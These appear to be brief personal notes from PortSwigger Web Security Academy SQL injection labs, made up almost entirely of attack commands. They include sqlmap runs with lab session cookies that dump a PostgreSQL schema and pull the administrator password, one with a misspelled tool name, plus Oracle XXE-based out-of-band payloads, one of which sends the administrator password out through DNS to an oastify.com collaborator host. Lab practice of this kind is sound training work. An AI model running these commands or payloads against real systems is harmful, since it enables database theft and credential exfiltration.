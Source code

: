 ____

[https://tib3rius.com/sqli](https://tib3rius.com/sqli) 

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


```bash
sqlmap -u "https://0a9100e603500d0982375131006f00bc.web-security-academy.net/filter?category=Gifts" --cookie="session=7biRvfgHaUlvwd8pXfLeRYKYtYFxAkEx" --level 5 --risk 3 -p category --batch --threads 10 --dbms=postgresql --dump -D public
```


```bash
sqlmap -u "https://0a39002b04d1c3af83dc5ac4006e0063.web-security-academy.net/filter?category=test" --cookie="session=N3QaEz5GFooyaQ4CxomOPoxXWZ7PVdmH" --level 5 --risk 3 -p category --batch --threads 10 --dbms=postgresql -D public --sql-query="SELECT password from USERS where username='administrator'"
```


# TrackingId

```bash
qlmap -u "https://0aef001c04d61b8e81771771008e0081.web-security-academy.net/filter?category=test" --cookie="TrackingId=YJopvpBsdNu7Eti3" --level 5 --risk 3 -p TrackingId --batch --threads 10 --dbms=postgresql -D public --sql-query="SELECT password from USERS where username='administrator'"
```


# Out of band

```bash
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//j4ouhbvxp3hdpkybcyx189hrbih85x.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

```bash
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.j4ouhbvxp3hdpkybcyx189hrbih85x.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
